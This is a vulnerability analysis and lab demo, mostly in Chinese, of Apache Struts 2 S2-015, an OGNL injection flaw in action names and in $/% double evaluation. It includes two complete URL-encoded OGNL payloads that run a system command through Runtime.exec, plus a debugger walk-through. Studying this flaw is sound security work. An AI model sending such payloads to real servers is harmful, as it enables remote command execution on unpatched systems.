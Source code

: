 # S2-015 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote command execution, remote server context manipulation, injection of malicious client side code |
| Maximum security rating | Highly Critical                                              |
| Recommendation          | Developers should immediately upgrade to [Struts 2.3.14.3](http://struts.apache.org/download.cgi#struts23143) |
| Affected Software       | Struts 2.0.0 - Struts 2.3.14.2                               |
| Reporter                | Jon Passki from Coverity Security Research Laboratory reported directly to security@struts.a.o and via [blog post](https://communities.coverity.com/blogs/security/2013/05/29/struts2-remote-code-execution-via-ognl-injection) |
| CVE Identifier          | [CVE-2013-2135](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-2135), [CVE-2013-2134](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-2134) |

## Problem

1.Action的名称没有转义和检查是否符合白名单。一个场景是当action name配置为通配符，攻击者可以通过访问`<ognl_expression>.action`来传入`ognl`表达式，并在加载`jsp`文件时触发执行。

```java
<action name="*" class="example.ExampleSupport">
    <result>/example/{1}.jsp</result>
</action>
```

![{3F466E24-9A06-4BB6-81E5-FA37C1198FC9}_20200720185919]({3F466E24-9A06-4BB6-81E5-FA37C1198FC9}_20200720185919.jpg)

Payload1: 

```
/s2_015_war_exploded/%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d.action
```

2. 当`$`和`%`字符组合使用时，`ognl`表达式会被`TextParseUtil.translateVariables`二次执行。

```java
<action name="Helloworld" class="org.test.HelloworldAction">
	<result name="success" type="httpheader">
		<param name="headers.foobar">${message}</param>
	</result>
</action>
```

![{E450977C-E4EB-4B47-9D8B-494207ADCDDD}_20200721165527]({E450977C-E4EB-4B47-9D8B-494207ADCDDD}_20200721165527.jpg)

Payload2: 

```
/s2_015_war_exploded/Helloworld.action?message=%25%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d
```

## Environment

| Struts2 Version | struts-2.2.3           |
| --------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | idea 2020.1.1 ULTIMATE |

## Debug

第二个问题有点类似于`s2-012`，这里不分析了，只看下第一个。

在`s2-015/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/DefaultActionInvocation.class:199`下个断点，这里是已经执行过前面所有的interceptor，准备执行action的execute方法。

发送`payload1`触发断点。

![image-20200721182849833](img/image-20200721181343029.png)

跟入`executeResult()`，创建了一个`ServletDispatcherResult`对象，即默认的result类型为dispatcher（转发）。

![image-20200721184020081](img/image-20200721182650792.png)

跟进`execute()`，两行代码分别是解析要转发的地址以及执行转发操作：

```
public void execute(ActionInvocation invocation) throws Exception {
	this.lastFinalLocation = this.conditionalParse(this.location, invocation); //解析要转发的地址，ongl解析就发生在这里
	this.doExecute(this.lastFinalLocation, invocation); //执行转发操作
}
```

继续跟进`conditionalParse()` -> `translateVariables()` -> `translateVariables()` -> `translateVariables()`，该函数首先扫描`location`中是否存在`${`}和`%{}`的字符串，如果有就将其中的表达式截取出来，并通过`stack.findValue()`查找，最终触发`ognl`表达式：

![image-20200721184634621](img/image-20200721184634621.png)

## Reference

- [S2-015](https://cwiki.apache.org/confluence/display/WW/S2-015)
- [S2-015 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-015/README.zh-cn.md)

